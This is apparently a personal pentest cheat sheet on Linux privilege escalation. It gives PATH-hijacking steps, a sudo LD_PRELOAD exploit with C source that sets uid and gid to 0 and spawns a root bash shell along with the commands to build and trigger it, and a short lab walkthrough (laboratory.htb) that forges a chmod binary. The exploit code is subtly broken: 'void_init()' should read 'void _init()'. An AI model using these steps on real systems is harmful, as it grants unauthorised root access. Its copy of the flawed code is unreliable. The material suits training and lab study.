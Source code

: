 ## PATH variable exploitation

Its a environment variable that specifies the dirs that holds executable programs. When the user runs any command in terminal, it searches for executable files with the help of the PATH var.

`echo $PATH`
so make a executable file in `/tmp` then 

`PATH=/tmp:$PATH`

then whenever you execute ls which was your custom bin made in tmp will be execute other than real ls hence will be executing our real exploit.

# Sudo privilege escalation
#### (LD_PRELOAD)
**Detection:**
Linux VM
1. In command type: `sudo -l`
2. From the output if you see the `LD_PRELOAD` environment variable is intact.
#### Explaination
1. Use the code:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

3. In command type:
`gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4. In command type:
`sudo LD_PRELOAD=/tmp/x.so apache2`
BOOM....!

# Path Escalation
Real scenario in laboratory.htb
Found a vulnerable `docker-security` binary to path privilage escalation.
So i ltraced the application for the calls:
![](https://i.imgur.com/fI3if3X.png)
So as we can see this application calling chmod to get some permissions so this is the vulnerablility 
we will forge a new binary of chmod and then change the paths
![](https://i.imgur.com/jYctnis.png)
